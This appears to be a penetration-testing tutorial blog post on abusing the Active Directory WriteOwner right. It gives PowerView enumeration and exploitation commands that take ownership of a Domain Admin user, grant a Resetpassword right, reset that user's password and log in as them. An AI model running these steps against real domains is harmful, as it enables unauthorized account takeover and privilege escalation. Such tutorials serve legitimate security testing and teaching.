 ```yaml
---
title:  WriteOwner On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# WriteOwner

***WriteOwner*** : Is a permission that allows you to change ownership of an object. If you have *WriteOwner* on user object, you can make yourself the owner of that user, and if you have ownership on user object, you can give yourself a right i.e `Resetpassword` that will allow you to reset user's password, thereby escalating your privileges.

# Enumeration

## PowerView

### WriteOwner Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *WriteOwner* right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -like "*WriteOwner*")}

```

*below image shows the current user `usman` has WriteOwner right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum1.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has WriteOwner right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteowner.png)

# Exploitation

## PowerView

### Change Ownership Of User

Execute the below command to give yourself ownership on the target user `ali`.

Command

```powershell

set-domainobjectowner -Identity [target_user] -OwnerIdentity [Your Current User]

```
![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum2.png)

You can verify it using bloodhound

*below image shows user `usman` is owner of user `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerb.png)

You can verify it from server manager

*below image shows user `usman` is owner of user `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum3.png)

### Give Resetpassword Right

Since you are the owner of the user `ali`, you can execute the below command to give yourself `Resetpassword` right on the user.

Command

```powershell

add-domainobjectacl -TargetIdentity [target_user] -PrincipalIdentity [Your Current User] -Rights Resetpassword

```
You can verify it using the below command.

Command

```powershell

get-objectacl -resolveguids | ? {$_.securityidentifier -eq "[your_current_user_sid]"}

```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum4.png)

### Reset Password

With `resetpassword` right given, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
